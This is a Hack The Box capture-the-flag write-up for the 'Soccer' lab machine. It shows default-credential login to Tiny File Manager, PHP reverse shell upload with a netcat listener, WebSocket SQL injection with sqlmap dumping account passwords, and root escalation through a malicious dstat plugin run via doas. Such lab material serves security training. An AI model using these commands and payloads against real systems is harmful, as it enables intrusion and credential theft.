





---
tags:
  - sqli
  - doas
  - dstat
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Soccer
- Reference : https://0xdf.gitlab.io/2023/06/10/htb-soccer.html
- Solved : 2024.12.03. (Thu) (Takes 1days)

## Summary
---

1. **Initial Reconnaissance**
    - **Port Scanning**:
        - Identified open ports: SSH (22), HTTP (80), and a custom service on (9091).
        - Discovered domain name: `soccer.htb`.
    - **Website Analysis**:
        - HTTP (80) hosted a main page with no input vectors.
        - Directory enumeration revealed `/tiny`, hosting "H3K Tiny File Manager."
    - **Tiny File Manager Analysis**:
        - Identified default credentials for "Tiny File Manager 2.4.3" (`admin@123`).
        - Discovered upload functionality allowed PHP reverse shell upload in `/tiny/uploads`.
        
2. **Exploitation of File Upload**
    - **Reverse Shell Access**:
        - Uploaded `php-reverse-shell.php` and triggered it to gain a shell as `www-data`.
    - **Local Enumeration**:
        - Found vHost configuration for `soc-player.soccer.htb` pointing to port 3000.
        
3. **SQL Injection on WebSocket**
    - **Identified SQL Injection**:
        - Exploited SQL Injection in WebSocket request at `soc-player.soccer.htb` (port 9091).
        - Used `sqlmap` to enumerate and dump credentials from `soccer_db.accounts`.
    - **Account Credentials**:
        - Extracted credentials for the user `player`.
        
4. **Privilege Escalation**
    - **Shell as Player**:
        - Logged in via SSH as `player`.
    - **Enumeration**:
        - Found SUID binary `doas` configured with `doas.conf` to permit `player` to execute `/usr/bin/dstat` as root.
    - **Exploitation**:
        - Leveraged writable directory `/usr/local/share/dstat`.
        - Created a malicious plugin script to spawn a root shell.
        - Executed `doas /usr/bin/dstat --<plugin>` to escalate privileges.
        
5. **Root Shell Access**
    - Successfully obtained root shell through `doas` privilege escalation.

### Key Techniques:

- WebSocket-based SQL Injection for database enumeration and credential extraction.
- File upload vulnerability to execute a reverse shell.
- `doas` misconfiguration exploitation for privilege escalation to root.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.194
Performing quick port scan on 10.10.11.194...
Found open ports: 22,80,9091
Performing detailed scan on 10.10.11.194...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-03 01:32 EST
Nmap scan report for 10.10.11.194
Host is up (0.13s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 03 Dec 2024 06:32:17 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 03 Dec 2024 06:32:17 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.94SVN%I=7%D=12/3%Time=674EA5EB%P=aarch64-unknown-linux
SF:-gnu%r(informix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x
SF:20close\r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConn
SF:ection:\x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x2
SF:0Found\r\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Conten
SF:t-Type-Options:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=ut
SF:f-8\r\nContent-Length:\x20139\r\nDate:\x20Tue,\x2003\x20Dec\x202024\x20
SF:06:32:17\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<htm
SF:l\x20lang=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</t
SF:itle>\n</head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>
SF:\n")%r(HTTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Sec
SF:urity-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20no
SF:sniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length
SF::\x20143\r\nDate:\x20Tue,\x2003\x20Dec\x202024\x2006:32:17\x20GMT\r\nCo
SF:nnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<h
SF:ead>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body
SF:>\n<pre>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPReques
SF:t,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20
SF:default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-
SF:Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:
SF:\x20Tue,\x2003\x20Dec\x202024\x2006:32:17\x20GMT\r\nConnection:\x20clos
SF:e\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20ch
SF:arset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x2
SF:0OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBind
SF:ReqTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r
SF:\n\r\n")%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.10 seconds
```

- 3 ports are open : `ssh(22)`, `http(80)`, `xmlmail(9091)`
- Domain name found : `soccer.htb`. Let's add it in `/etc/hosts`.

### http(80)


The main page looks normal. There's no input vector that I can tamper.
Let's scan this website.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://soccer.htb
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.194
+ Target Hostname:    soccer.htb
+ Target Port:        80
+ Start Time:         2024-12-03 02:25:18 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
```

`Nikto` scan couldn't find anything useful.

```markdown
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

`gobuster` found one unique sub page : `/tiny`
Let's visit this page.



Bingo! There's a login page found. It says its name is "H3K Tiny File Manager".

# Shell as `www-data`

### Exploiting File Upload vulnerability

Based on research, it's an existing file managing solution.
Here's the link:
https://tinyfilemanager.github.io/

Also, I could find exploit in version 2.3.6 from exploit-db:
https://www.exploit-db.com/exploits/50828

Let's inspect its source code.

```xml
<a href="https://tinyfilemanager.github.io/" target="_blank" class="text-muted" data-version="2.4.3">CCP Programmers</a>
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ searchsploit tiny file manager
----------------------------------------- ---------------------------------
 Exploit Title                           |  Path
----------------------------------------- ---------------------------------
Manx 1.0.1 - '/admin/tiny_mce/plugins/aj | php/webapps/36364.txt
Manx 1.0.1 - '/admin/tiny_mce/plugins/aj | php/webapps/36365.txt
MCFileManager Plugin for TinyMCE 3.2.2.3 | php/webapps/15768.txt
Tiny File Manager 2.4.6 - Remote Code Ex | php/webapps/50828.sh
TinyMCE MCFileManager 2.1.2 - Arbitrary  | php/webapps/15194.txt
----------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[~/htb]
└─$ ./50828.sh 
./50828.sh: 46: Syntax error: Bad function name
```

However, the exploit is somewhat incomplete. May have to look for other ways.
Instead, let me focus on the official website I found previously.
It has a github link. Le'ts open the following code:
https://github.com/prasathmani/tinyfilemanager/blob/master/tinyfilemanager.php
I can find the following lines;

```php
// Login user name and password
// Users: array('Username' => 'Password', 'Username2' => 'Password2', ...)
// Generate secure password hash - https://tinyfilemanager.github.io/docs/pwd.html
$auth_users = array(
    'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123
    'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345
);
```

It reveals its default credential for `admin` : `admin@123`
Also, I tried to find its hash type additionally using `hash-identifier`, but it was not working.

```bash
┌──(kali㉿kali)-[~/htb/h3k_tinyfilemanager_rce]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW

 Not Found.
```

Let's sign-in.



I think it's easy if I can upload a webshell for reverse shell connection.
Let me prepare it with `php-reverse-shell.php`, name it `rshell.php`.

When I tried to upload it on the main directory, it was denied.
Instead, I enumerate through this platform to find if there's any folder that allows file upload.



I finally got succeeded to upload the `rshell.php` in `/var/www/html/tiny/uploads`.
Then, I fetched the php webshell with `curl` command.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://soccer.htb/tiny/uploads/rshell.php
```

Before that, I opened a `netcat` listener, which took the reverse shell connection soon.

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.194] 36350
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 08:06:51 up  1:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I got a shell!


# Shell as `player`

### Enumeration

First, let's take a look at `nginx` settings file.

```ruby
www-data@soccer:/etc/nginx/sites-enabled$ ls
ls
default  soc-player.htb
```

There's another vHost named `soc-player.htb`..

```bash
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb
cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

It's connected through reverse proxy in port 3000.
Let's add `soc-player.soccer.htb` to `/etc/hosts`.


It apparently looks same with `soccer.htb` page, except several differences.
There are `login`, `signup`, `match` menu are additionally found.

Let's run `gobuster` to find if there's any sub directories.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://soc-player.soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soc-player.soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 3307]
/img                  (Status: 301) [Size: 173] [--> /img/]
/signup               (Status: 200) [Size: 3741]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 3307]
/js                   (Status: 301) [Size: 171] [--> /js/]
/logout               (Status: 302) [Size: 23] [--> /]
/check                (Status: 200) [Size: 31]
/match                (Status: 200) [Size: 10078]
/Signup               (Status: 200) [Size: 3741]
```

All the other pages except `/check` are found and accessible from the main page.
Let's visit `/check` page.


The page shows `Ticket ID`.
When I typed in this number into the input. And capture the packet with `Burpsuite`.



It looks slightly different from normal web request, websocket.
Also, it's using port 9091 that we found before.

Just in case if it allows SQL Injection, let me try the following;

```json
{"id":"74296 OR 1=1-- - "}
```

74296 is not the existing ticket, so the answer is supposed to be `Ticket doesn't exist`.
But the response is `Ticket exists`. So SQL Injection is working.
Let's try SQL Injection with `sqlmap`.

### SQL Injection

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"59637"}' --dbms=mysql --risk=3 --level=5 --batch --threads 10 --dbs

       __H__                                                               
 ___ ___[']_____ ___ ___  {1.8.7#stable}                                   
|_ -| . [,]     | .'| . |                                                  
|___|_  [.]_|_|_|__,|  _|                                                  
      |_|V...       |_|   https://sqlmap.org    
      
<SNIP>
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

`soccer_db` might need more investigation.
Let's look up tables of `soccer_db`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"59637"}' --dbms=mysql --risk=3 --level=5 --batch --threads 10 -D soccer_db --tables
        ___
       __H__                                                               
 ___ ___[']_____ ___ ___  {1.8.7#stable}                                   
|_ -| . [,]     | .'| . |                                                  
|___|_  [.]_|_|_|__,|  _|                                                  
      |_|V...       |_|   https://sqlmap.org                               

<SNIP>
[1 table]
+----------+
| accounts |
+----------+
<SNIP>
```

Extracted table name is `accounts`.
Now let's dump the table.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"59637"}' --dbms=mysql --risk=3 --level=5 --batch --threads 10 -D soccer_db -T accounts --dump

       __H__                                                               
 ___ ___[']_____ ___ ___  {1.8.7#stable}                                   
|_ -| . [,]     | .'| . |                                                  
|___|_  [.]_|_|_|__,|  _|                                                  
      |_|V...       |_|   https://sqlmap.org    

<SNIP>
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
<SNIP>
```

I can successfully extract `player`'s password : `PlayerOftheMatch2022`

Let's try logging in through `ssh`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh player@soccer.htb
The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'soccer.htb' (ED25519) to the list of known hosts.
player@soccer.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Dec  3 12:41:05 UTC 2024

  System load:           0.0
  Usage of /:            70.6% of 3.84GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b6d1

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```

I got a `player`'s shell!


# Shell as `root`

### Enumeration

Let's try enumeration with `linpeas`

```bash
player@soccer:~$ ./linpeas_linux_amd64 

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                       
Sudo version 1.8.31  


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                         
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -     


╔══════════╣ Users with console
player:x:1001:1001::/home/player:/bin/bash                                 
root:x:0:0:root:/root:/bin/bash


╔══════════╣ Unexpected in root
/data                                                                      
/vagrant


╔══════════╣ Backup folders
drwxr-xr-x 2 root root 3 Apr 15  2020 /snap/core20/1695/var/backups        
total 0


drwxr-xr-x 2 root root 4096 Dec  3 09:47 /var/backups
total 52


╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                      
-rwsr-xr-x 1 root root 42K Nov 17  2022 /usr/local/bin/doas                
-rwsr-xr-x 1 root root 140K Nov 28  2022 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)    
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                             
-rwsr-xr-x 1 root root 463K Mar 30  2022 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1                                                                    
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 39K Feb  7  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)                                                                     
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 55K Feb  7  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                           
-rwsr-xr-x 1 root root 67K Feb  7  2022 /usr/bin/su
-rwsr-xr-x 1 root root 44K Nov 29  2022 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 84K Nov 29  2022 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                                 
-rwsr-xr-x 1 root root 67K Nov 29  2022 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 87K Nov 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 52K Nov 29  2022 /usr/bin/chsh
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)                                                  
```

Let's find SUID files manually to double check.

```swift
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
<SNIP>
```

I think `doas` is not normal SUID file.
It sounds like it's similar with `doas`.

Here is the reference regarding `doas` privilege escalation:
https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/doas-privilege-escalation

According to the reference, I need to check `doas.conf` file first.

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

I can find methodology to spawn a shell using `dstat`.



I followed the instruction, but didn't work.

```bash
player@soccer:~$ mkdir -p ~/.dstat
player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >~/.dstat/dstat_xxx.py
player@soccer:~$ doas /usr/bin/dstat --xxx
dstat: option --xxx not recognized, try dstat -h for a list of all the options
```

I refered a man page again:
https://linux.die.net/man/1/dstat

```markdown
Files
Paths that may contain external dstat_*.py plugins:

~/.dstat/
(path of binary)/plugins/
/usr/share/dstat/
/usr/local/share/dstat/
```

It says that there are more directories to include custom scripts.
Among the listed directories, `/usr/local/share/dstat` is writable by `player`.

```bash
player@soccer:/usr/local/share/dstat$ ls -al /usr/local/share/dstat/
total 8
drwxrwx--- 2 root player 4096 Dec 12  2022 .
drwxr-xr-x 6 root root   4096 Nov 17  2022 ..
```

Let's try again with this writable directory!

```bash
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --bokchee
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
```
